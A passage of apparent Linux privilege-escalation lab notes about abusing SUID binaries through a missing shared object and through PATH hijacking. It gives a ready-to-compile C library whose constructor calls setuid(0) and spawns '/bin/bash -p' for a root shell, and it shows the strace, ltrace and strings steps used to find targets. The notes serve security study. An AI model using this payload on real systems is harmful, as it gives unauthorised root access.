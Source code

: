 ```bash
	access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
	open("/lib/libc.so.6", O_RDONLY)        = 3
	open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)
```
The executable is trying to open the libcalc.so shared object but it does not exist. Create the .config/libcalc.so file and give the following contents:
```C
/*
	Compile:
	gcc -shared -fPIC -o libcalc.so libcalc.c
*/

#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor))
void inject() {
	setuid(0);
	system("/bin/bash -p");
}
```

Execute libcalc.so.

### PATH Environment Variables
PATH environment variable contains a list of directories where the shell should try to find programs. 
If a program tries to execute another program, but only specifies the program name, rather than its full (absolute) path, the shell will search the PATH directories until it is found. 
Since a user has full control over their PATH variable, we can tell the shell to first look for programs in a directory we can write to.

If a program tries to execute another program, the name of that program is likely embedded in the executable file as a string.
We can run **strings** on the executable file to find strings of characters.
We can also use **strace** to see how the program is executing. Another program called **ltrace** may also be of use.
Running **strace**:
```bash
strace -v -f -e execve <command> 2>&1 | grep exec
```
Running **ltrace**
```bash
ltrace <command>
```

For example, looking at /usr/local/bin/suid-env on the box, it appears to run apache2 using service command.
```bash
$ strings /usr/local/bin/suid-env
/lib64/ld-linux-x86-64.so.2
5q;Xq
__gmon_start__
libc.so.6
setresgid
setresuid
system
__libc_start_main
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
|$0H
service apache2 start
```